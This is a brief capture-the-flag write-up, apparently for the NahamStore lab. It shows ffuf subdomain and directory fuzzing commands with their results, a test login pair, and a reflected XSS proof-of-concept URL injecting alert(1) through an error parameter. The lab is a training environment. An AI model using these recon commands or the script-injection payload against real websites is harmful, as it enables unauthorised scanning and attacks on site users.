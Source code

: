 ___
test@test.com:testtest
# Recon

```bash
ffuf -w subdomains.txt -u http://nahamstore.thm -H "Host: FUZZ.nahamstore.thm"
```

- marketing
- shop
- stock
- www

```bash
ffuf -w content.txt -u http://nahamstore.thm/FUZZ
```

- basket
- css
- js
- login
- logout
- register
- returs
- robots.txt
- seach
- staff
- uploads

# XSS

```
http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert(1)%3C/script%3E
```

